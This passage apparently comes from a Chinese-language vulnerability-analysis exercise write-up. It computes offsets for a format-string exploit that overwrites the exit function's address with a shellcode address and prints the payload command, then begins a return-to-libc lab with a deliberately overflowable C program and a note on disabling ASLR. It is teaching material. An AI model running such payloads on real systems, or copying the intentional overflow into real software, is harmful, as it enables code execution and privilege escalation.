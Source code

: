 0xbfff（shellcode地址高字节）-12（三个地址）-16（字符）=49123，所以用``49123x%11\$hn%``修改exit函数的高位地址。

0xf268（shellcode地址低字节)-0xbfff=12,905，所以用`12905x%12\$hn%`修改exit函数的低位地址。

exit函数低地址：`\x0c\xa0\x04\x08 `，exit函数高地址：`\x0e\xa0\x04\x08`

```bash
q2 $(printf "\x0e\xa0\x04\x08\x0c\xa0\x04\x08\x24\xa0\04\x08")%.49123x%11\$hn%.12905x%12\$hn%x%13\$n
```

![image-20220301100610804](漏洞分析练习题/image-20220301100610804.png)

## 三return-to-libc

源代码

```c
/* sudo sysctl -w kernel.randomize_va_space=0 then ... */
/*User Return-to-libc to execute 
system("/usr/bin/id");
setreuid(0,0);
system("id");
execl("/bin/sh","sh",NULL);
*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bof(FILE *badfile)
{
     long i=0x23456789;

    char buffer[97];
    /* The following statement has a buffer overflow problem */
    fread(buffer, sizeof(char), 430, badfile);
    if(i != 0x23456789) {
        printf(" Warnning: Buffer Overflow !!! \n");
     kill(0,11);
    }


    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;
    badfile = fopen("badfile", "r");
    bof(badfile);
    printf("Returned Properly\n");
    fclose(badfile);
    return 1;
}

```
